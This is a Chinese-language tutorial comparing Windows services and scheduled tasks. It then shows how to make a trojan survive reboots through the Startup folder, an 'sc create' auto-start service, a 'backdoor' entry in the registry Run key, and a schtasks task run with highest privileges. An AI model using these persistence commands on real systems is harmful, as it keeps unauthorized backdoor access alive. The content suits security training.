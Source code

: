 ## **服务和计划任务**

在Windows操作系统中，服务（Services）和计划任务（Scheduled Tasks）都是自动化执行特定任务的机制，但它们在设计目的、工作方式和使用场景上存在一些区别：

 Windows服务（Services）
1. **后台运行**：服务在系统后台运行，通常没有交互式用户界面（GUI），即使在没有用户登录的情况下也能运行。
2. **自动启动**：服务可以在系统启动时自动运行，或者手动启动，并在需要时持续运行。
3. **系统权限**：服务可以以系统权限运行，这意味着它们可以访问系统资源和执行需要高权限的操作。
4. **依赖性**：服务之间可以设置依赖关系，确保某些服务在其他服务启动后运行。
5. **可管理性**：服务可以通过服务管理控制台（services.msc）或命令行工具（如sc和net命令）进行管理。
6. **稳定性和性能**：服务设计用于长期稳定运行，适合需要持续运行或频繁执行的任务。

 计划任务（Scheduled Tasks）
1. **定时执行**：计划任务根据预定的时间表执行，可以设置一次性任务或周期性任务。
2. **用户交互**：计划任务可以在特定用户登录后运行，并且可以与用户交互，例如打开GUI应用程序。
3. **启动方式**：计划任务在触发时启动，执行完毕后通常会退出。
4. **权限问题**：计划任务通常以创建它们的用户权限运行，除非特别指定。
5. **灵活性**：计划任务提供了更多的灵活性，可以设置复杂的触发条件，如特定时间、系统空闲、用户登录等。
6. **任务类型**：计划任务可以执行程序、发送电子邮件、显示消息等多种类型的任务。
7. **管理工具**：计划任务可以通过任务计划程序（Task Scheduler）或命令行工具（如at 、schtasks）进行管理。

 区别
* **运行方式**：服务持续运行，而计划任务按计划执行。
* **用户界面**：服务通常没有用户界面，计划任务可以启动带有用户界面的程序。
* **权限**：服务通常以系统权限运行，而计划任务以创建它们的用户权限运行。
* **触发条件**：服务依赖于启动类型和系统事件，计划任务依赖于时间表或其他触发条件。

^
## **重启登录自动上线**
Windows重启时，触发后门上线。
方式：自启动项目录，服务加载，注册表增加启动项。
查看启动项列表：有自启动目录里的程序，还有注册表添加的启动项程序

#### **利用自启动项目录 重启上线**
将木马文件放置在系统的自启动目录下
这里要注意，通常我们所使用的系统都是中文版的，有些系统可能被调整过所以在目录中显示的都是英文，而有些会出现是中文的情况，下面的这台虚拟机就是这样的。
```
C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\   
 ##英文
C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\开始菜单\程序\启动\   
 ##中文
```
对主机重启后发现，主机自动运行后门程序上线。

#### **利用服务加载 重启上线**
借助服务程序实现自动上线，比如创建一个服务，将服务指向木马，并将启动类型调整为自动，那么下次开机的时候，就会自动执行木马。
```
sc create Muma binPath= C:\1\3000.exe start= auto    #创建自启动服务 路径执行木马
sc delete Muma   #删除该服务
```
重启主机就会让系统加载服务，刚创建的服务是无法直接运行也可以手动运行。

#### **利用注册表增加启动项 重启上线**
注册表加载就是将木马添加到注册表中，新增启动项，让指定的程序在电脑重启登录后进行加载。

不同权限的注册表路径是不同的，有当前用户的，也有直接是服务器的，
当前用户的基本上你获取到用户权限就可以添加了，而且服务器也就是system权限，这个是需要提权的。

win+r：regedit 
当前用户键值注册表路径:
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
服务器键值注册表路径（需要管理员权限）:
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run 


添加后门注册表值
```
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "backdoor" /t REG_SZ /F /D "C:\1\3000.exe"

"HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"：
HKCU 是 HKEY_CURRENT_USER 的缩写，表示当前用户的注册表视图。
这个路径是 Windows 启动时用来确定哪些程序需要自动运行的注册表键。
```
查看注册表值win+r：regedit 
重启主机，重启登录后可以看到成功上线了。


^
## **计划任务上线维持**
Windows的计划任务：
在Windows系统<2012的时候可以使用at命令，同时at命令默认是以system权限执行。
从Windows server 2012之后就不可以使用at命令了，而改成schtasks来进行添加计划任务，


创建计划任务
```
创建一个名为TestService的计划任务，并在每天的9.46分运行C盘下1目录中的3000.exe程序。

创建任务：schtasks /Create /TN TestService /SC DAILY /ST 09:46 /TR c:\1\3000.exe /RL HIGHEST  
查看任务：SchTasks /Query /TN TestService
删除任务：SchTasks /Delete /TN TestService [/f]
```
这里只要到时间了，计划任务就会运行，当运行后程序就会上线。